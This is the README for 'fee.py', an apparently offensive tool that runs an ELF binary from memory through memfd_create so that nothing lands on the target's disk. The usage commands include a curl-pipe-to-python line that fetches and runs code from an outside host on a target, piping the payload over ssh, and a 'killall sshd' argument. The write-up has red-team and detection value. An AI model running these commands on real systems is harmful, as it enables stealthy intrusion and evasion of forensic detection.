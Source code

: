 ## Execute ELF files on a machine without dropping an ELF

### Description

This Python script generates Python code which creates the supplied ELF as a file in memory and executes it (without tmpfs). This makes it possible to execute binaries without leaving traces on the disk.

The technique used for this is explained [here](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html).


### Target requirements

 * kernel: 3.17 (for `memfd_create` support)
 * Python: either 2 or 3

### Usage

Basic usage: supply the path to the binary you wish to drop:

```console
$ ./fee.py /path/to/binary > output.py
```

You can then pipe this into Python on the target:

```console
$ curl my.example.site/output.py | python
```

If you want to pipe over ssh, use the `--with-command` flag (`-c`) to wrap the output in `python -c`:

```console
$ ./fee.py -c /path/to/binary | ssh user@target
``` 

If you want to customise the arguments, use the `--argv` flag (`-a`):

```console
$ ./fee.py -a "killall sshd" ./busybox > output.py
```

__IMPORTANT!__ By default, the script uses the x86-64 syscall number for `memfd_create`. This is different for targets with a different architecture (32-bit x86, ARM, ARM64, MIPS, etc).

You need to search for `memfd_create` in your target's architecture's syscall table. This is located in various places in the Linux kernel sources. Just Googling `[architecture] syscall table` is perhaps the easiest.

If you need to change the syscall number, use the `--syscall` flag (`-s`).

Full help text:
```
usage: fee.py [-h] [-s NUM] [-a ARGV] [-c] [-p PATH] [-z LEVEL] path

Print Python code to stdout to execute an ELF without dropping files.

positional arguments:
  path                  path to the ELF file

optional arguments:
  -h, --help            show this help message and exit
  -s NUM, --syscall NUM
                        syscall number for memfd_create for the target
                        platform (default: 319)
  -a ARGV, --argv ARGV  space-separated arguments (including argv[0]) supplied
                        to execle (default: path to file as argv[0])
  -c, --with-command    wrap the generated code in a call to Python, for
                        piping directly into ssh
  -p PATH, --python-path PATH
                        path to python on target if '-c' is used (default:
                        '/usr/bin/env python3')
  -z LEVEL, --compression-level LEVEL
                        zlib compression level, 0-9 (default: 9)

```